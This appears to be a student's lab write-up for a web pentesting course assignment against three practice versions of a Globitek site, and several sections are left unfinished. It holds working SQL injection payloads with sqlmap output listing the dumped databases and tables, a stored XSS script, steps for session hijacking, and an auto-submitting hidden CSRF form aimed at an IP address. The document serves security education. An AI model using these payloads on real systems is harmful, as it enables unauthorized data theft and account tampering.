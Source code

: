 # FacebookCyberSecurityCourseWeek8

POST /blue/public/staff/login.php 
csrf_token=d3115608c3c3aeb6cb8292b53c3b5899&username=&password=&submit=Submit

GET /blue/public/salesperson.php?id=1

-----

GET /green/public/salesperson.php?id=1

POST /green/public/contact.php HTTP/1.1
Cookie: PHPSESSID=qfsftu2c1q8njfubig8vrvfgl7

csrf_token=74905c37cf6cd71f632761b7c70a473c&name=aaaa&email=aaaa%40aol.com&feedback=aaaa&submit=Submit

 Admin red:
 POST /red/public/staff/users/new.php HTTP/1.1
 csrf_token=9823e079f451ca389ef312842a45671b&first_name=Jon&last_name=k&username=ok&email=ok%40aol.com&password=%21QAZ%40WSX1qaz2wsx&confirm_password=%21QAZ%40WSX1qaz2wsx&submit=Create

    GET /red/public/staff/users/edit.php?id=4 HTTP/1.1

    GET /red/public/staff/users/show.php?id=4 HTTP/1.1

    GET /red/public/staff/salespeople/show.php?id=10 HTTP/1.1

    GET /red/public/staff/salespeople/edit.php?id=11 HTTP/1.1

    GET /red/public/staff/countries/show.php?id=1 HTTP/1.1
















# Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi

Blue site vulnerable to SQLi. Using sqlmap utility, with endpoint "/blue/public/salesperson.php?id=1", results:
sqlmap identified the following injection point(s) with a total of 205 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4778=4778 AND 'jfPB'='jfPB

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: id=1' OR SLEEP(5)#
---

After inject point was found, DB tables and sensitive data was exposed from all 3 of the sites (red/blue/green):

web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

For instance, using sqlmap to probe globitek_blue tables, we find:

Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+

GIF:
Insert 5.

Vulnerability #2: Session Hijacking / Fixation
Blue site allows sessions to be a year old, and never regenerates the session ID, even when the user agent string changes. This makes it vulnerable to both session hijacking and session fixation attacks.  This is demonstrated by opening two browser instances. In the first, we will log in as an admin. We will then discover the session id using the provided tool, and give and set it to browser 2. With this id, browser 2 can bypass the login process. Uh-oh!

GIF:




## Green

Vulnerability #1: Cross-site Scripting
    Green site is vulnerable to stored XSS attacks. Any user can submit feedback to the admin of the site, and the feedback is not properly sanitized.
    Submitting a form with comment <script>alert('XSS attack');</script>, we can demonstrate the effect when the admin views it (seen below):
GIF: 6
Vulnerability #2: __________________


## Red

Vulnerability #1: Cross Site Request Forgery

    The red site doesn't need a CSRF token to carry out admin-level work, such as editing a user's profile. By creating a hidden form that is automatically submitted (without notifying the user of submission results), we can be stealthy. For example, by using a hidden form which will not display submission results, we can send a POST request by linking it to a logged in admin. In this example, I've linked the malicious form to the admin through the "contact us" page.
    ```
    <html><body onload="document.bank_form.submit()"><form action="https://35.184.242.122/red/public/staff/users/edit.php?id=4" method="POST" name="bank_form" style="display: none;" target="hidden_results" ><input type="text" name="first_name" value="MALICIOUSALTEREDVALUE"/><input type="text"/></form> <iframe name="hidden_results" style="display: none;"></iframe> </body> </html>
    ```

GIF: 8

Vulnerability #2: Username Enumeration

    The red site is vulnerable to username enumeration, because attempting to login too many times will lock out the account from trying for x minutes. This is prompt confirms that the username exists in the system (accounts that do not exist will not throw this error message after 3 attempts)


GIF: 7


## Notes

Describe any challenges encountered while doing the work
